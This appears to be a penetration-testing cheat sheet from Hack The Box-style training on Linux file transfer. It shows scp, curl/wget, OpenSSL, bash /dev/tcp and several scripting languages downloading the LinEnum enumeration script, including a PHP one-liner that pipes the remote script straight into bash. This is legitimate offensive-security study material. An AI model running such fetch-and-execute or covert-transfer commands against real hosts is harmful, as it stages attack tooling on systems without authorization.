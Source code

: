 # Linux File Transfer Methods

## SCP

### Download file via SCP from a remote server
````bash
scp <user>@<IP-ADDRESS>:/path/to/file <output_file_on_system>
````
### Upload file via SCP to a remote system
````bash
scp <local_file_on_system> <user>@<IP-ADDRESS>:/path/for/uploaded_file
````

## Wget / cURL

Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.
````bash
Ryohei@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
````bash
Ryohei@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

## OpenSSL

OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### Create certificate
````bash
Ryohei@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
````
### Stand up server
````bash
Ryohei@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
````
### Download file
````bash
Ryohei@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
````
## Bash (/dev/tcp)
There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

### Connect to Target's Webserver
````bash
Ryohei@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
````
### HTTP GET Request
````bash
Ryohei@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
````
### Print the Response
````bash
Ryohei@htb[/htb]$ cat <&3
````

## PHP
PHP is also very prevalent and provides multiple file transfer methods.

### File_get_contents()
````bash
Ryohei@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
````
### Fopen()
````bash
Ryohei@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
````
If the php-curl module has been installed, this can alternatively be used.

### Php-curl
````
Ryohei@htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
````
It is also possible to retrieve each line as an array and pipe the output to bash.

````
Ryohei@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
````

## Python
Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2
````bash
Ryohei@htb[/htb]$ python2
````
````python
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````
### Python 3
````bash
Ryohei@htb[/htb]$ python3
````
````python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````

## Other Languages
Ruby, Perl, and Golang are some other popular languages that can also transfer files.

### Ruby
````bash
Ryohei@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
````
### Perl
````bash
Ryohei@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
````
### Go
````go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
````
